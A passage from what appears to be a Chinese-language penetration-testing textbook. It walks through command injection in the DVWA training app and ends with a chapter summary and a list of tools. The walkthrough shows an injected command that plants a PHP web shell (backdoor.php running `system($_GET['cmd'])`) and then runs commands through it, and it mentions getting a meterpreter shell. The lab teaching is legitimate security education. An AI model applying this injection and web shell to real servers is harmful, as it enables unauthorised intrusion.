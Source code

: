 这个片段应该看起来像我们之前 LFI 的结果。

让我们再做一件事。让我们在目录中创建一个文件，以便以后可以参考这个文件来执行命令。输入`127.0.0.1`和`echo “<?php system(\$_GET[‘cmd’]) ?>” > backdoor.php`。这应该创建一个名为`backdoor`的 PHP 文件，里面的 PHP 代码应该是`system (\$_GET[‘cmd’])`。

现在，在浏览器中导航到`<ip address>/dvwa/vulnerabilities/exec/backdoor.php`。

页面加载了，但是没有显示任何内容。这是因为我们还没有传递任何命令。看看我们输入的内容，在单引号中我们有`cmd`。这是我们的变量，用于存储我们想要执行的命令，并将其传递给系统执行。要执行一个命令，在地址栏中的`backdoor.php`后面，输入`?cmd=`，然后输入你的命令。我将使用`ls`作为一个基本演示：

![](img/eed2b93b-7672-43f3-86a4-03ef5d90ad26.jpg)

从这一点开始，可以���挥你的想象力，尝试不同的可能性。诚然，演示需要一些工作，但你可以随时查看源代码进行清理：

![](img/aa4904c9-ae34-46bf-8804-5e1c3f77859a.jpg)

我想补充一点，你可以使用 Burp Suite 中的 Repeater 来执行这些步骤，你也可以将 Burp Suite 与`sqlmap`和 Metasploit 一起使用来获得一个 meterpreter shell。

# 摘要

在本章中，我们看了一些用于 Web 应用程序测试的主要工具，通过延伸，云应用程序也是如此，因为它们建立在相同的协议上并使用许多相同的平台。

正如你所看到的，这些漏洞有一个共同的根本原因，即用户输入没有经过净化或验证，以确保所需的数据被用于处理。此外，对一个漏洞的利用可以允许另一个漏洞被利用（例如目录遍历到文件包含）。

我们使用 OWASP ZAP、Nikto、`sqlmap`和 Burp Suite 来识别可能的漏洞，测试它们并利用它们。然而，Kali 还配备了许多其他工具，可以用来进行这些测试，许多工具可以一起使用。

Burp Suite 和 OWASP ZAP 特别是非常强大的独立工具，可以完成我们所看到的一切，甚至一些我们没有看到的东西。我们甚至可以使用它们进行目录遍历和文件包含测试。

一些其他要看的工具如下：

+   Commix（命令注入漏洞工具）

+   DirBuster（Web 服务器目录暴力破解工具）
